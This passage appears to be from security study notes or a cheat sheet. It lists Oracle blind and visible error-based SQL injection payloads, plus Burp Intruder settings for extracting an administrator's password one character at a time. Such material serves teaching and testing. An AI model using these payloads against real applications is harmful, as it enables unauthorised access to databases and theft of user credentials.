     * Oracle DB:
    
```
'||(select case when(substr((select password from users where username='administrator'),1,1)='z') then to_char(1/0) else '' end from dual)||'
```

```
'||(select case when substr(password,1,1)='z' then to_char(1/0) else '' end from users where username = 'administrator')||'
```

<br>

Burp Intruder or the script in the "Scripts" folder can be used to help automate the extraction of password:

For Burp Intruder use the following configurations:
   * Attack Type:  Cluster Bomb
   * Payload Positions: 2 position markers need to be set:
      * The first one should be on the character offset position in the password
      * The second marker should be on the actually character to test
         * where username='administrator'),$$,1)='$$') 
   * Payloads:
      * First marker - Numbers From 1 to 20
      * Second marker - include alphanumeric characters (Burp Pro has the payload list that can be added.)
   * View Results: Filter by the status code.  The results that contain the 500 code are the correct ones. After sorting, it should be easy to manually put together the password.
   
   * Note:  If having trouble sorting by 2 columns in Burp Suite.  You can copy/paste only the necessary columns in an Excel sheet, sort them appropriately by the "Payload 1" request so they are in order (1-20) positions.  Then use the =CONCAT() command on the "Payload 2" column so the password is combined automatically. 

<br><br><br>

#### Visible Error-based SQL Injection

   * These payloads can be used when the application is returning a verbose error message in it's response.  Many times the application will display the results of the query within the error message in the response.

   * Specifically the "cast" command enables us to convert one data type to another.  Attempting to convert a String data type to an Integer will cause an error.


```
' and 1=cast((select 1) as int)--
```

```
' and 1=cast((select username from users) as int)--
```

```
' and 1=cast((select username from users limit 1) as int)--
```
